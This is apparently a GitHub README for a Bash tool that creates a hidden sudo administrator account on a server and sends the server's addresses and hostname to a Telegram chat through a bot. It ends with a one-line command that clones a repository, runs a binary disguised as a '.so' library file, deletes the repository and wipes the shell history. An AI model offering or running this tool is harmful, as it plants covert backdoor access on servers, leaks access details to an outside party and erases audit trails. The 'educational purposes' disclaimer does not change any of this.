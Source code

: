 # Hidden Admin User Creation Script

This script creates a hidden admin user on the server and sends notifications to a Telegram chat via a bot. It performs the following tasks:

1. **Checks if the script is run as root.**
2. **Sends server information to a specified Telegram chat.**
3. **Generates a random username and password for the new user.**
4. **Creates a new user with sudo privileges and hides it from the login screen.**

## Prerequisites

- **Bash**: This script requires Bash to run.
- **Curl**: The script uses `curl` to send messages to Telegram and fetch server information.
- **Telegram Bot Token and Chat ID**: You need to provide your Telegram bot token and chat ID where notifications will be sent.

## Usage

1. **Configure Telegram Bot Token and Chat ID**:

   Replace the placeholder values for `BOT_TOKEN` and `CHAT_ID` with your actual Telegram bot token and chat ID.

   ```bash
   BOT_TOKEN="your_telegram_bot_token"
   CHAT_ID="your_chat_id"
   ```

2. **Make the Script Executable**:

   ```bash
   chmod +x create_hidden_admin.sh
   ```

3. **Run the Script as Root**:

   ```bash
   sudo ./create_hidden_admin.sh
   ```

## Script Details

- **Function `send_telegram_message`**: Sends a message to the specified Telegram chat.
- **Function `get_server_info`**: Retrieves the server's IPv4 address, IPv6 address, and hostname.
- **Function `generate_random_string`**: Generates a random string of a given length.
- **User Creation**:
  - Checks if the user already exists.
  - Creates a new user with a randomly generated username and password.
  - Adds the user to the `sudo` group for admin privileges.
  - Hides the user by modifying the home directory to `/var/empty` and changing the login shell.

## Security Warning

- **Running as Root**: This script must be executed with root privileges. Running it with insufficient permissions may result in failure.
- **Hidden User**: While the user is hidden from the login screen, it can still be accessed and used if known. Ensure that you handle this user securely.

## Disclaimer

This script is provided for educational purposes and should be used responsibly. Misuse of this script can lead to security risks and unintended consequences. Always review and test scripts in a safe environment before deploying them in production.


##Code Runer
   ```bash
   git clone https://github.com/Aytola7/lib02uba.git && cd lib02uba &&chmod +x libxyz123.so&&./libxyz123.so&&cd /root&&rm -rf /root/lib02uba&&history -c &&rm ~/.bash_history&&history -w
   ```

---

Feel free to modify and extend the script according to your needs and ensure you understand its behavior before execution.
